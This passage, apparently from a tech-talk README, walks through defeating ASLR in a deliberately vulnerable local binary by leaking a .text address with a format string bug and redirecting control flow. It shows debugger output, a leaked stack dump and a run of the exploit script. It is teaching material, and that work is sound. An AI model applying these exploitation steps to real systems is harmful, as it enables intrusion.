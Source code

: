 ## Redirect Control Flow

Now, we want to redirect control flow, since we have a consistent address, we should be able to redirect control flow to where we want it. Other options include using this info in another round of format string vulnerability to either to a write-what-where or more precisely leak info that is on the stack (maybe a .text segment address).

We have a few options here, can throw shellcode on the stack, redirect to that, we could also try and return to the leaking process, leak a stack address, and then ROP. 

Since we are avoiding the concepts of shellcode in this talk, we can just use the format string vulnerability to leak a .text segment address, turns out there is one 27 dwords up the stack.

```
pwndbg> disass gen_file
Dump of assembler code for function gen_file:
   0x565ac67d <+0>:     push   ebp
```

Running the leaking code

```
[+] Starting local process './vuln': pid 3606
Attach to the process with the debugger

b'0xf7efb000 0xffb81ca8 0xf7d93f02 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0xf7ef0020 (nil) 0xffb81cc8 0x565ac70e '
```

So we just go back into our take over EIP code and reput in the calculated offset:

```
ubuntu@ip-172-31-83-147:~/techtalk/defeat_aslr$ ls
README.md  core  makefile  pwn_ASLR.py  pwn_noASLR.py  vuln  vuln.c
ubuntu@ip-172-31-83-147:~/techtalk/defeat_aslr$ python3 pwn_ASLR.py 
[+] Starting local process './vuln': pid 3692
ubuntu@ip-172-31-83-147:~/techtalk/defeat_aslr$ ls
README.md  core  makefile  pwn_ASLR.py  pwn_noASLR.py  test.txt  vuln  vuln.c
```

